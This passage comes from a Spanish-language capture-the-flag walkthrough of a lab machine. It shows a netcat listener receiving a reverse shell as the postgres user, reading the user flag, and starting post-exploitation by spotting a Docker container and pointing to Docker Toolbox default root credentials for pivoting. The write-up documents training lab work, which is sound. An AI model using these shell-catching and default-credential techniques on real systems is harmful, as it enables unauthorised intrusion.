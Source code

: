 Mira la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.236] 50373
bash: cannot set terminal process group (4639): Inappropriate ioctl for device
bash: no job control in this shell
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ whoami
whoami
postgres
```
Obtén una shell interactiva con **Python** o **Bash**.

La flag del usuario, está en el directorio **postgres**:
```bash
ostgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ cd ~
postgres@bc56e3cc55e9:/var/lib/postgresql$ ls
11  user.txt
postgres@bc56e3cc55e9:/var/lib/postgresql$ cat user.txt
...
```


<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="Docker">Pivoting a Aplicación de Docker y Enumeración de Máquina</h2>

Enumerando un poco la máquina, no encontraremos mucho que podamos hacer. Si usamos el comando **ifconfig** veremos algo muy interesante:
```bash
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 4301  bytes 427290 (417.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3759  bytes 3537678 (3.3 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 8202  bytes 3090994 (2.9 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8202  bytes 3090994 (2.9 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Observa la **IP**, debería terminar en 1, pero no es así. Si recordamos la herramienta que están usando es **Docker-toolbox.exe**, por lo que pueden tener varias aplicaciones web abiertas y si investigamos más sobre esta herramienta, encontraremos que tiene contraseñas por defecto:
* <a href="https://stackoverflow.com/questions/32646952/docker-machine-boot2docker-root-password" target="_blank">docker-machine boot2docker root password</a>
